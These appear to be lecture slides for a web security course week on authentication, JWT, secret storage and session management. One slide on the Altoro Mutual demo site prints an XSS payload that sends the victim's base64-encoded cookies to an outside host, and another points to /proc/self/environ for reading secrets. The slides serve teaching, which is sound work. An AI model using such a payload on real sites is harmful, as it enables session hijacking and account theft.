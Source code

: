 ```yaml
---
title: "Week 3 - Auth and IAM"
layout: "bundle"
outputs: ["Reveal"]
date: 2023-02-24T02:57:21+10:00
---
```


{{< slide class="center" >}}

## Week 3

---

## DNS Recon Recap

* Walkthrough
  * [Sublist3r](https://github.com/aboul3la/Sublist3r)
  * [Word List](https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS)

---

## Lecture Review

* Build a Flask app
* Python semantics, `__name__`, `__main__`, `__dir__`
* JWT

---

## More on JWT

* Anatomy of a JWT token
* What should be in a JWT token
* Pros and Cons
* Store secrets in a `.env`?

---

# DevOps, DevSecOps, DevSec..Oops..

{{% section %}}

More on this in later weeks

* `.env` + `.gitignore`
* Scoped env command

---

If it's in the environment, it's accessible to the entire process.  
Even if you unset it in the code >:(

* `/proc/self/environ`

{{% /section %}}

---

> Alternatives

* External data sources (config servers)
  * i.e. AWS Parameter Store
  * i.e. Google Secrets Manager
  * i.e. HashiCorp Vault
  * i.e. Apple KeyChain

---

## Back to Altoro Mutual

jk the demo did work I was just dumb

> 👉 Login as admin first 👈

```
<script>fetch("https://[...]/?v="+btoa(document.cookie))</script>aaa
```

---

## How to be a script kiddie

* Python + `requests`
* Node.js + `node-fetch`
* JavaScript + `fetch`
* JavaScript + `XMLHTTPRequest`
* etc

---

## Session Management

* Last week, auth via cookies
* What does it mean to "log out"

---

## Learning HTTP Responses

* 2XX - Success
* 3XX - Redirect
* 4XX - Client Error
  * [418](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/418)
  * [451](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/451)
* 5XX - Server Error

---


---

## Logistics

Midterm Exam, Reports
